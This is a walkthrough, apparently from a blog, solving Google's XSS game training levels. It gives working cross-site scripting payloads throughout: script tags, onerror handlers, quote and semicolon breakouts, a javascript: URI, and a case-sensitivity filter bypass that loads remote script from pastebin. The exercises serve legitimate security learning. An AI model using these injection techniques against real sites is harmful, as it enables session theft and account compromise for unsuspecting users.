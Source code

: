 ## Cross-site scripting (XSS)Cross-site scripting (XSS)

*https://xss-game.appspot.com/*

This is a note of practicing the xxs 

## Level 1
This is the most obvious and easiest one. Just insert following code and you're done:
```
<script>alert(1)</script>
```

## Level 2
Since the script won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use img tags along with the onerror attributes. Here you go:

<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
## Level 3
Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see index.html:

```
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
```
As you see the num parameter is used to generate the img tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the onerror attribute to insert JS. Insert this into the URL address bar and you'll get your alert():

https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
## Level 4
This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting https://xss-game.appspot.com/level4/frame?timer=' showed me following output:

SyntaxError: unterminated string literal
```
startTimer(''');
Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

https://xss-game.appspot.com/level4/frame?timer=');
```   
   SyntaxError: unterminated string literal

    startTimer('')');
```
https://xss-game.appspot.com/level4/frame?timer=');
```
      SyntaxError: unterminated string literal


    startTimer('')');
 ```
And then I've decided to use some URL encoding: %3B represents the semi-colon.

https://xss-game.appspot.com/level4/frame?timer=')%3B
```
      SyntaxError: unterminated string literal


    startTimer('');');
```
Aha.. There you go! We can terminate the call and insert other ones. The final request:

https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in

startTimer('');alert(1);var b=('');
I must admit: Nice one!

## Level 5
This one was quite easy. On the first page you can see a link: https://xss-game.appspot.com/level5/frame/signup?next=confirm. Now let's have a look how this next parameter is used in confirm.html:

```
      <script>
            setTimeout(function() { window.location = '{{ next }}'; }, 5000);
      </script>
```
So the window.location is set based on the next parameter. This is a typical case for DOM based XSS. Besides that we have in signup.html:

```
      <br><br>
          <a href="{{ next }}">Next >></a>
      </body>
```
Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)

Insert your Mail

Click Next >>

Voila!
## Level 6
This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```
Afterwards the text after the hash is used as the scripts src:
```
      // Load this awesome gadget

      scriptEl.src = url;
```
Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the final PoC:

https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/
